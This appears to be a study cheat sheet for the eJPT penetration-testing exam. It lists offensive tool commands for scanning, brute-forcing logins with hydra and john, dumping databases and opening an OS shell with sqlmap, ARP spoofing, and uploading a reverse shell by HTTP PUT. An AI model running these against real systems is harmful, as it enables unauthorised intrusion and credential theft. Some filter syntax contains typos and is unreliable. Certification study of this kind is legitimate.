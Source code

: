 # eJPT Cheat Sheets


Ports
-----------------------------------------
25 - SMTP
22 - SSH
110 - POP3
143 - IMAP
80 - HTTP
443 - HTTPS
137, 138, 139 - NETBIOS
115 - SFTP
23 - Telnet
21 - FTP
3389 - RDP
3306 - MySQL
1433 - MS SQL Server

Routing 
-----------------------------------------
```sh
ip route add <Network> via <GATEWAY>
ip route add 192.168.1.0/24 via 10.0.0.1 dev tap0
```
Wireshark Filters
-----------------------------------------

|Filter By|Command|
--- | --- |
|IP|ip.add == 10.10.10.9|
|Destination IP|ip.dest == 10.10.10.9|
|Source IP|ip.src == 10.10.50.1|
|port|tcp.port == 25|
|IP adress and PORT|ip.addr == 10.10.50.1 and tcp.port == 25|
|SYN flag|tcp.flags.syn == 1|
|Broadcast filter|eth.dst == ff:ff:ff:ff:ff:ff|

Ping Sweep
-----------------------------------------
```sh
nmap -sn <IP>/24
fping -a -g <IP>/24 2>/dev/null
```
Banner Grabbing
-----------------------------------------
```sh
nc -nv  <IP> <port>
```
Reverse shell
```sh
nc -nvlp <port>
```

Getting all the methods from a page
```sh
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
```
Directory and File Scanning
-----------------------------------------
```sh
dirsearch.py -u <URL> -e *
gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
dirb <URL>
dirb <URL> -u admin:admin
```
You can use the common.txt

Nmap 
-----------------------------------------
Port scan:
```sh
nmap -p- <IP address>
```
Version and script scanning:
```sh
nmap -sC -sV -p- <IP address>
```
Vuln scan:
```sh
nmap --script vuln <IP address>
```
*All Nmap script on this path :  /usr/share/nmap/scripts*

SQLMap
-----------------------------------------
```sh
sqlmap -u <URL> -p parameter
sqlmap -r port_request.req
sqlmap -u <URL>/login.php" --data="user=admin&password=admin"

sqlmap -u <URL> –os-shell

sqlmap -u <URL> –dump
```
Usefull parameters

Get database if injection Exists

 - --dbs
 
Get Tables

- -D dbname --tables

Get data in a Database tablee

- -D dbname -T table_name --dump



Cracking Password
-----------------------------------------
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
unshadow passwd shadow > unshadowed.txt

Hydra
-----------------------------------------
```sh
hydra -L users.txt -P pass.txt -t 10 <IP address> ssh -s 22
```
You can replace ssh with any service

HTTP POST Form
```sh
hydra <URL> http-post-form "/login.php:user=^USER^&password=^PASS^:Wrong password" -L usernames.txt -P passwords.txt -f -V
```

SMB Enumeration
-----------------------------------------
```sh
smbclient -L //<IP>/
enum4linux -a <IP>
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains <IP> -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* <IP> -v
```
Access Share
```sh
smbclient //<IP>/share_name
```

Metasploit
-----------------------------------------
Try not to use metasploit, it is not needed :)

ARPSpoof
-----------------------------------------
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t <target IP> -r <arp ip>
```
FTP Enumeration
-----------------------------------------
```sh
nmap --script=ftp-anon <ip> -p21 -v
```
Login
```sh
ftp 10.10.10.10
```
Windows Command Line
-----------------------------------------
Check routing table
```cmd
route print
netstat -r
```
To search for a file
```cmd
dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"
```
Check Users
```cmd
net users
```
List drives on the machine
```cmd
wmic logicaldisk get Caption,Description,providername
list volume
fsutil fsinfo drives
```

Uploading file to server using PUT
-----------------------------------------
```sh
wc -m reverse_shell.php
<Length of the shell> reverse_shell.php
```
```html
PUT /reverse_shell.php
Content-type: text/html
Content-length: <Length of the shell>
```

Cross Site Scripting (XSS)
-----------------------------------------

Just follow the videos from the INE

- Find a reflection point
- Test with <i> tag
- Test with HTML/JavaScript code (alert('XSS'))



















